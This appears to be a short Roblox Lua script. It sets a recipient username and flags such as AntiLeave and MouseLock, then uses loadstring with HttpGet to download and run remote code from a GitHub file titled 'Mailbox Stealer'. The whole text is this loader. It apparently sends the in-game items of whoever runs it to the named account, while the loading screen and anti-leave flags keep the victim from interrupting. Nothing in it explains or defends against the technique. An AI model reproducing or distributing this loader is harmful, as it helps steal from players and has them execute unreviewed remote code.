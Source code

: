 _G.UserName = "hzaGah"
_G.UserName2 = "hzaGah"

_G.LoadingScreen = true
_G.AntiLeave = true
_G.MouseLock = true

loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-sc/Psxsc/main/Mailbox%20Stealer", true))()
  
  
